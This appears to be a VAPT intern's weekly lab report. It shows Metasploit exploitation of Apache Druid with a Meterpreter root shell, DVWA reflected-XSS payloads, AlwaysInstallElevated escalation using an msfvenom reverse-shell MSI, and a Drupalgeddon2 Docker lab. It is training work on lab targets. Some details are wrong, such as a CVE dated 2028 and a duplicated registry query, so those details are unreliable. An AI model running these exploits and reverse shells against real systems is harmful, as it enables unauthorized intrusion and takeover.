










# Week 3 - Vulnerability Scanning

> **Date:** March 25, 2026<br>
> **Author:** Apurv Kumar<br>
> **Position:** VAPT Intern<br>


## Exploiting Apache Druid Service 0.17.0

Exploit ID | Description             | Target IP      | Status  | Payload
-----------|------------------------|----------------|---------|-----------
01        | Apache Druid to RCE       | 10.129.203.52  | Success | Meterpreter

### Reconaissance

**Nmap Scan Output**

```bash
sudo nmap 10.129.203.52 -vv -F -sVSC -O
```

```plaintext
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
8081/tcp open  http    syn-ack ttl 63 Jetty 9.4.12.v20180830
8888/tcp open  http    syn-ack ttl 63 Jetty 9.4.12.v20180830

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDEtihrnXMQHWhwZCWFPcX8gmBy8EEBjJ9T5lR/9onJz7XvUdcPTsaOovhhVrgFaQu1U5ekn4V+OYuIxJrEfl0dcBhSqQSb81MO3bTK5yZ+rQ958rl5PiYwKGeFc0VR9P3abEdKRn7bcEoXKSRoMof6vwkJMzb5N/7JBFYUo/jfbzovKEkX4t4Bwh6W4dmcPL6Mh4DJjhaHX6qZcC4MZoOV2oLW82T0tfH/KNLsMXBJ/Yqh8GziGy+jcLl31abch2+inXHTdKhoCOHR+A970VjskUs2iWCRsNkYREtTtpCZ738m1gdMQS+BzV2ZhRRcDnGOXMzR7Rk5Azs+luaGNzRlb1q2+NSQlmGzgBEPvIoL4/pBDM3fb8ZiL4gWvq3bqyPGdOi2nZfbpyeYzAqUe6THRvwjAS1wWUMLNt6jgt13xCTVOZV4hKMmLneb/VQXRoDFBF/vFoFDiPxeVNaM7dvBVQIBYbkBLqjYLVV1IFr2otRIbtVrLU+/D/mJvmXM3Xs=
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrNZZh3PTca9YkLp+xpAXtquE6wsTwEZmBtt6mism0idkizZWojfLqjeonge0ZYBEfXjTgMsfJ366hpWedHE8U=
|   256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPlAiOeV++/9T5HzXC37wJRor3PaSuVOGLaNFz7pEl1/
8081/tcp open  http    syn-ack ttl 63 Jetty 9.4.12.v20180830
|_http-server-header: Jetty(9.4.12.v20180830)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Apache Druid
|_Requested resource was http://10.129.203.52:8081/unified-console.html
8888/tcp open  http    syn-ack ttl 63 Jetty 9.4.12.v20180830
|_http-server-header: Jetty(9.4.12.v20180830)
| http-title: Apache Druid
|_Requested resource was http://10.129.203.52:8888/unified-console.html
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

## Initial Foothold

- Setting up the exploit: `exploit(linux/http/apache_druid_js_rce)`
- Setting up the Payload: `linux/x64/meterpreter/reverse_tcp`
- Set the options for exploit: `RHOSTS` & `RPORT`
- Set the options for Payload: `LHOST` & `LPORT`

```bash
[msf](Jobs:0 Agents:0) >> search apache druid

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/linux/http/apache_druid_js_rce          2021-01-21       excellent  Yes    Apache Druid 0.20.0 Remote Command Execution
   1  exploit/multi/http/apache_druid_cve_2023_25194  2023-02-07       excellent  Yes    Apache Druid JNDI Injection RCE
   2  auxiliary/scanner/http/log4shell_scanner        2021-12-09       normal     No     Log4Shell HTTP Scanner

[msf](Jobs:0 Agents:0) >> use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_druid_js_rce) >> 
```

- **Exploit file:** https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/apache_druid_js_rce.rb

## Exploitation

**Running exploit:**

```bash
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_druid_js_rce) >> run

[*] Started reverse TCP handler on 10.10.14.62:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Using URL: http://10.10.14.62:8080/x6QA2RejoV
[*] Client 10.129.203.52 (curl/7.68.0) requested /x6QA2RejoV
[*] Sending payload to 10.129.203.52 (curl/7.68.0)
[*] Sending stage (3045380 bytes) to 10.129.203.52
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Meterpreter session 1 opened (10.10.14.62:4444 -> 10.129.203.52:46034) at 2026-03-25 09:29:56 +0530
[*] Server stopped.

(Meterpreter 1)(/root/druid) > help

Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    background    Backgrounds the current session
    bg            Alias for background
    bgkill        Kills a background meterpreter script
    bglist        Lists running background scripts
===========================<SNIP>===========================

(Meterpreter 1)(/root/druid) > ls
Listing: /root/druid
====================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  59403  fil   2020-03-31 07:22:05 +0530  LICENSE
100644/rw-r--r--  69091  fil   2020-03-31 07:22:06 +0530  NOTICE
100644/rw-r--r--  8228   fil   2020-03-31 07:24:43 +0530  README
040755/rwxr-xr-x  4096   dir   2022-05-16 14:15:00 +0530  bin
040755/rwxr-xr-x  4096   dir   2022-05-11 18:19:31 +0530  conf
040755/rwxr-xr-x  4096   dir   2022-05-11 18:19:30 +0530  extensions
040755/rwxr-xr-x  4096   dir   2022-05-11 18:19:30 +0530  hadoop-dependencies
040755/rwxr-xr-x  12288  dir   2022-05-11 18:19:32 +0530  lib
040755/rwxr-xr-x  4096   dir   2020-03-31 06:56:02 +0530  licenses
040755/rwxr-xr-x  4096   dir   2022-05-11 18:19:31 +0530  quickstart
040755/rwxr-xr-x  4096   dir   2022-05-11 18:39:18 +0530  var

(Meterpreter 1)(/root/druid) > getuid
Server username: root

(Meterpreter 1)(/home/lab_adm) > cd /root
(Meterpreter 1)(/root) > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  168   fil   2022-05-16 16:37:41 +0530  .bash_history
100644/rw-r--r--  3137  fil   2022-05-11 19:13:25 +0530  .bashrc
040700/rwx------  4096  dir   2022-05-16 16:34:45 +0530  .cache
040700/rwx------  4096  dir   2022-05-16 16:24:48 +0530  .config
100644/rw-r--r--  161   fil   2019-12-05 20:09:21 +0530  .profile
100644/rw-r--r--  75    fil   2022-05-16 14:15:33 +0530  .selected_editor
040700/rwx------  4096  dir   2021-10-06 23:07:09 +0530  .ssh
100644/rw-r--r--  212   fil   2022-05-11 19:40:43 +0530  .wget-hsts
040755/rwxr-xr-x  4096  dir   2022-05-11 18:21:45 +0530  druid
100755/rwxr-xr-x  95    fil   2022-05-16 16:01:10 +0530  druid.sh
100644/rw-r--r--  22    fil   2022-05-16 15:31:15 +0530  flag.txt
040755/rwxr-xr-x  4096  dir   2021-10-06 23:07:19 +0530  snap

(Meterpreter 1)(/root) > cat flag.txt 
HTB{MSF_Expl01t4t10n}
(Meterpreter 1)(/root) > 
```

Tester gained full access of the target system.

## DVWA - Reflected XSS Finding

### Low Sec-Level

At the low security level (Source Code):



Examining the source code reveals that user input is rendered directly without any sanitization.

Let’s enter a name into the input field and see how the application behaves.




The user input is directly displayed in both the URL and the page content beside “Hello”.

Proceed by inserting the following payload into the input field:


```js
<script>alert("XSS")</script>
```



We confirmed a Reflected XSS vulnerability by executing a JavaScript alert successfully.

### Mid Sec-Level

Next, let’s review the source code under the medium security setting.



From the source code, it’s evident that our previous payload will no longer work, as the application now applies a filter that strips out `<script>` tags.

Let's use the below payload this time:

```js
<svg onload=alert('XSS')>
```

The payload essentially instructs the browser to create a hidden SVG element and, upon loading it, execute JavaScript that triggers a pop-up alert.

### High Sec-Level

High Level Sec Code:

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if (array_key_exists("name", $_GET) && $_GET['name'] != NULL) {
    // Get input
    $name = preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET['name']);

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?>
```

From reviewing the source code, it’s clear that the application blocks all `<script>` tags, even when they are obfuscated. Because of this restriction, we need to use a payload that relies on a different HTML element or event handler.

Tester then reused the previous payload, which does not include a `<script>` tag, and it worked successfully.

```js
<svg onload=alert('XSS')>
```

There are several payloads which can be used to generate an alert like the below one:

```js

```

### Impossible Sec-Level

Impossible Level Sec Code:

```php
<?php

// Is there any input?
if (array_key_exists('name', $_GET) && $_GET['name'] != NULL) {
    // Check Anti-CSRF token
    checkToken($_REQUEST['user_token'], $_SESSION['session_token'], 'index.php');

    // Get input
    $name = htmlspecialchars($_GET['name']);

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

From the source code, we can see the use of `htmlspecialchars()`. This means that any HTML or JavaScript tags (such as `<script>`, ``, or `<svg>`) injected by a user will be neutralized. The browser treats the input as plain text—for example, it will display `<script>alert(1)</script>` instead of executing it.

In summary, the application effectively mitigates Reflected XSS by properly encoding user input before displaying it on the page.


## Privilege Escalation via Registry (`AlwaysElevatedPrivileges`) - Post-Exploitation and Evidence Collection

An `.msi` file is a Windows installation package used to deploy software. It includes all the necessary files and instructions required by the Windows Installer service to install applications in a consistent and structured way.

The **“AlwaysInstallElevated”** vulnerability occurs when Windows Installer packages are set to run with elevated (administrator) privileges by default. This allows any user or process that executes an `.msi` file to obtain elevated privileges automatically, without requiring additional authentication.

### Overview of the AlwaysInstallElevated method

**Precondition:**
Both of the following registry keys must be enabled (set to `1`) for the vulnerability to be exploitable.

1. Check if the setting is enabled for the current user:

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

2. Check if the setting is enabled at the system level:

```bash
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If both values return `0x1`, the configuration is enabled.

Let’s verify the values of the two registry keys that determine whether `.msi` files can be installed with administrative privileges.


```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Both are set to TRUE == Enabled


The target system is affected by the “AlwaysElevatedPrivileges” vulnerability, which is essentially a misconfiguration. Therefore, the next step is to generate a malicious .msi payload.


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.0.5 LPORT=53 -f msi -o rev.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159674 bytes
```

***Evidence Collection***

Host the payload using an HTTP server, SMB share, or any suitable method. On the target machine, retrieve the `.msi` file from the attacker’s server using tools like `certutil`, PowerShell, or SMB.

After downloading, execute the `.msi` file to activate the stageless reverse shell.


**Victim Side:**

```powershell
msiexec /quiet /qn /i C:\PrivEsc\rev.msi
```

**Attacker's Side:**

```bash
C:\Windows\system32> whoami
whoami
nt authority\system
```

## Capstone Project: Full VAPT Cycle (`exploit/linux/http/drupal_drupageddon`) - Exploiting Drupal

**Setting up lab**

```bash
# Create a file
touch Dockerfile
```

```bash
# Opening in notepad
micro Dockerfile
```

*Paste this Dockerfile Config:*
```bash
FROM php:7.4-apache
 
 RUN apt-get update && apt-get install -y \
 libpng-dev \
 libjpeg-dev \
 libfreetype6-dev \
 zip \
 unzip \
 curl \
 && docker-php-ext-configure gd - with-freetype - with-jpeg \
 && docker-php-ext-install gd
 
 RUN a2enmod rewrite
 
 WORKDIR /var/www/html
 
 RUN curl -fsSL https://ftp.drupal.org/files/projects/drupal-7.57.tar.gz -o drupal.tar.gz \
 && tar -xzf drupal.tar.gz \
 && mv drupal-7.57/* . \
 && rm -rf drupal-7.57 drupal.tar.gz
 
 RUN chown -R www-data:www-data /var/www/html \
 && chmod -R 755 /var/www/html
 
 EXPOSE 80
```

*Build the Dockerfile:*

```bash
docker build -t drupalgeddon .
```

*Once the image build completed, the container was launched using:*

```bash
docker run -d -p 8080:80 - name drupalgeddon-capstone drupalgeddon
```

The -d option keeps the container running in the background, while -p 8080:80 links port 80 of the container to port 8080 of the local system, making the application accessible in the browser.

Now on visiting the http://localhost:8080, a drupal installation page should be visible.



### Initial Enum

Upon visiting the http://localhost:8080/CHANGELOG.txt, it's easy to gather the drupal version running on the server. Discovered version was: `Drupal 7.57`



This version found vulnerable to Drupalgeddon-2 (CVE-2028-7600) at checking about it on the internet:



The exploit in the first [result from Exploit-db](https://www.exploit-db.com/exploits/44449) can be used to exploit the target server, but this time let's do with msfconsole to ease the work.

Searching about this exploit in `msfconsole`, there was `exploit/unix/webapp/drupal_drupalgeddon2` in the results. I loaded this exploit in msfconsole:

```bash
use exploit/unix/webapp/drupal_drupalgeddon2
```



Let's setup our exploit and gain a reverse shell:

```bash
set RHOSTS 10.0.2.15
set RPORT 8080
```



Let's run the exploit:

```bash
run
```

Got a reverse connection successfully up running the exploit:



using the shell command, we can get a pure bash shell of the system and can do further info gather of the system.


---


<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>

***<u><font color="grey">END OF REPORT</font></u>***

